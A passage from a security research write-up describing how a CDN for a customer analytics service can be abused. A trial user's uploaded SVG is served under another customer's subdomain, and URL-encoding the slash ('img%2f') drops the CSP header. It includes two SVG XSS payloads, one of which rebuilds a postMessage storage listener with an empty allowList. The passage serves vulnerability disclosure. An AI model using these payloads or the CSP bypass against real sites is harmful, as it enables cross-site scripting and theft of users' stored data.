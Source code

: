```
https://cdn.analytics.example.com/img/customer54353/icon-register.svg
```

I registered as a trial user on the service, and uploaded my own asset, which also showed up on the CDN:

```
https://cdn.analytics.example.com/img/customer94342/tiger.svg
```

The interesting part was that, if you then used the customer-specific subdomain for the CDN, the image was still served. This URL worked:

```
https://cdn.customer12345.analytics.example.com/img/customer94342/tiger.svg
```

![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example4.png)

This meant that the customer with ID #94342 could render SVG-files in customer #12345’s storage.

I uploaded a SVG-file with a simple XSS-payload:

`https://cdn.customer12345.analytics.example.com/img/customer94342/test.svg`

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg id="svg2" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewbox="0 0 500 500" width="100%" height="100%" version="1.1">
<script xlink:href="data:,alert(document.domain)"></script>
</svg>
```

![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example3.png)

Not great. The CDN added a `Content-Security-Policy: default-src 'self'`-header to everything under `img/`. You could also see the server header mentioned S3 – disclosing that the content was uploaded to an S3-bucket:

![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example5.png)

One interesting quirk with S3 is that directories are not really directories in S3; the path before the key is called a “prefix”. This means that S3 doesn’t care if `/` are url-encoded or not, it will still serve the content if you url-encode every slash in the URL. If I changed `img/` to `img%2f` in the URL would still resolve the image. However, in that case the CSP-header was removed and the XSS triggered:

![](https://labs.detectify.com/wp-content/uploads/2022/06/gadget3-example6.png)

I could then upload an SVG that would create the same form of storage-handler and postMessage-listener like the regular `storage.html`, but an empty `allowList`. That allowed me to do the same kind of attack even on websites that had properly defined the allowed origins that could talk to the storage.

I uploaded a SVG that looked like this:

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg id="svg2" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" viewbox="0 0 5 5" width="100%" height="100%" version="1.1">
<script xlink:href="data:application/javascript;base64,dmFyIGJsb2NrTGlzdCA9IFtdOwp2YXIgYWxsb3dMaXN0ID0gW107Ci4uLg=="></script>
</svg>
```
